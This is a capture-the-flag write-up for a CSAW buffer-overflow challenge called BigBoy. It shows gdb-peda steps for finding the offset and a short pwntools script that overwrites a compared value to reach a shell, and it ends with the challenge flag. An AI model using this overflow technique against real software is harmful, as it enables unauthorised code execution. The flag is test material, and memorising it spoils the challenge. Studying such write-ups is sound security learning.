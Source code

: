 # BigBoy

![](https://i.imgur.com/diG7oLv.png)

This challenge is a bufferoverflow binary, we should determine the offset where the EAX register is compared and achieve the condition.

First, let's run gdb-peda and disassemble the main function.

```
$ gdb ./boi
```

![](https://i.imgur.com/evgFNXL.png)

Here's a `read()` function, then store the input into the EAX register and is compared to this hexadecimal value `0xcaf3baee` and finally it get a jump (jne).

If the condition is met, it will jump to the `rum_cmd` (main+122) function which will execute the shell.

![](https://i.imgur.com/t37Orrv.png)

After that, let's get started to determine the offset where the BufferOverflow's hexadecimal value is checked.

![](https://i.imgur.com/4eTvScs.png)

First, put a breakpoint after the `read()` function like: 
```
$ b *0x4006a8
```

Then generate a simple pattern (just make sure it is long enough):
```
$ pattern create 100
```

Run the binary and copy&paste the pattern as input when bonary require that.

![](https://i.imgur.com/AlAm9l6.png)

Then verify the value of `$eax` :
```
$ print $eax
$ pattern_offset 0xXXXXXXXX
```

After we got the offset, we could write down a python script to complete this PWN chal.

```python
from pwn import *

server = remote("pwn.chal.csaw.io",9000)
payload = "A"*20
payload += p32(0xcaf3baee)
server.sendline(payload)
server.interactive()
```

`FLAG : flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}`